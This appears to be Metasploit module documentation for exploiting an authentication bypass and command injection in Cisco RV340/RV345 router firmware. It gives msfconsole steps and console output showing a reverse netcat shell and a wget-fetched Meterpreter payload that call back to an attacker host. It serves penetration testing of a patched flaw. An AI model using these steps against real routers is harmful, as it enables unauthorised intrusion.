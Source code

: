 ## Cisco RV340 and RV345 Firmware 1.0.03.24 and below

This module exploits two vulnerabilities, an authentication bypass (CVE-2022-20705) and a command injection vulnerability (CVE-2022-20707), to execute code on Cisco RV340x Small Business Routers as the www-data user. The command injection occurs in the upload.cgi script, where user input is passed to curl without any sanitization. Additionally, a session ID cookie can be abused for a path traversal vulnerability, which can be used to bypass authentication by checking for a valid file in the session ID field.

Vulnerable up to, and tested against, firmware version 1.0.03.24. Version 1.0.03.26 removes these vulnerabilities.    

Credit to Biem Pham at Sea Security for finding and weaponizing the exploits.  

Credit to jbaines-r7 as most code in this module was adapted from cisco_rv_series_authbypass_and_rce.

### Installation

Vulnerable software: https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.24

## Verification Steps

1. Install the vulnerable firmware
2. Start `msfconsole`
3. Do: `use modules/exploits/linux/http/cisco_rv340_lan`
4. Do: `set lhost <listening ip>`
5. Do: `set rhost <target ip>`
6. Do: `exploit`

Exploit will print out `Exploit successfully executed` User can verify with `id` command

Non-vulnerable versions (1.0.03.26 and above) will not create a session

## Targets

### 0

This targets router with `reverse_netcat` payload and returns a shell

### 1

This target obtains a meterpreter session using `wget` by default, but `curl` also works

## Options

### TARGETURI

Specified the base URI. The default value is `/`.

## Scenarios

### Reverse Netcat Output
```
msf6 > use modules/exploits/linux/http/cisco_rv340_lan
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/cisco_rv340_lan) > set lhost 192.168.1.142
lhost => 192.168.1.142
msf6 exploit(linux/http/cisco_rv340_lan) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf6 exploit(linux/http/cisco_rv340_lan) > exploit

[*] Started reverse TCP handler on 192.168.1.142:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 1 opened (192.168.1.142:4444 -> 192.168.1.1:55885) at 2023-02-05 10:06:22 -0500
[+] Exploit successfully executed.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
### Meterpreter Linux Dropper

```
msf6 > use modules/exploits/linux/http/cisco_rv340_lan
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/cisco_rv340_lan) > set lhost 192.168.1.142
lhost => 192.168.1.142
msf6 exploit(linux/http/cisco_rv340_lan) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf6 exploit(linux/http/cisco_rv340_lan) > set target 1
target => 1
msf6 exploit(linux/http/cisco_rv340_lan) > exploit

[*] Started reverse TCP handler on 192.168.1.142:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Using URL: http://192.168.1.142:8080/3b2NfBKR0OS
[*] Client 192.168.1.1 (Wget) requested /3b2NfBKR0OS
[*] Sending payload to 192.168.1.1 (Wget)
[*] Sending stage (934728 bytes) to 192.168.1.1
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Meterpreter session 2 opened (192.168.1.142:4444 -> 192.168.1.1:55950) at 2023-02-05 10:12:37 -0500
[*] Server stopped.

meterpreter > shell
Process 11012 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
